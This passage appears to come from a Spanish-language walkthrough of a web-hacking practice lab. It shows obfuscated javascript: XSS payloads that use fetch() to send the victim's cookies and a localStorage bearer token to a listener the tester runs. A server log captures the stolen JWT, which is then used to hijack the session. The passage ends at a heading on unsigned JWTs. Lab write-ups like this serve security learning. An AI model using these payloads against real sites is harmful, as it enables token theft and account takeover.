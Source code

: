 Ahora vamos a probar enviarnos las cookies. Usaremos el siguiente payload:

```js
%09Jav%09ascript:fetch(`http://172.18.0.1/`%2bdocument.cookie)
```

Si mandamos el enlace a la víctima, veremos que no nos llega nada... Si nos fijamos en el código fuente de la página, podemos ver el siguiente archivo Javascript.

```js
if (localStorage.getItem('token') && !document.cookie.match(/^(.*;)?\s*session\s*=\s*[^;]+(.*)?$/)) {
  $.ajax({
    url: '/session',
    type: 'GET',
    headers: {
      Authorization: `Bearer ${localStorage.getItem('token')}`,
    },
    success() {
      window.location.reload();
    },
  });
}
```

Vemos que se está usando un token para lo que parece la autorización, podemos intentar robarlo con el xss usando el siguiente payload.

```js
%09Jav%09ascript:fetch(`http://172.17.0.1/`+localStorage.getItem(`token`))
```

Con ese payload estaremos accediendo al locastore de la víctima y estaremos cogiendo el token. Si lo enviamos y revisamos nustro servidor web montado en python podemos ver la siguiente petición.

```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
172.18.0.2 - - [06/Mar/2023 16:39:52] code 404, message File not found
172.18.0.2 - - [06/Mar/2023 16:39:52] "GET /eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzb2NpYWxseS1hcHAiLCJpZCI6NX0.0fyiW-Gft-yI3hFxLF0pWYyab7LrR-Pnl1-b904d2Qw HTTP/1.1" 404 -
```

Podemos ver el token, vamos a añadirlo a nuestro navegador y veamos si nos autenticamos.

![](/assets/images/WebHackingPlayground/img7.png)

### JWT Without Signature.
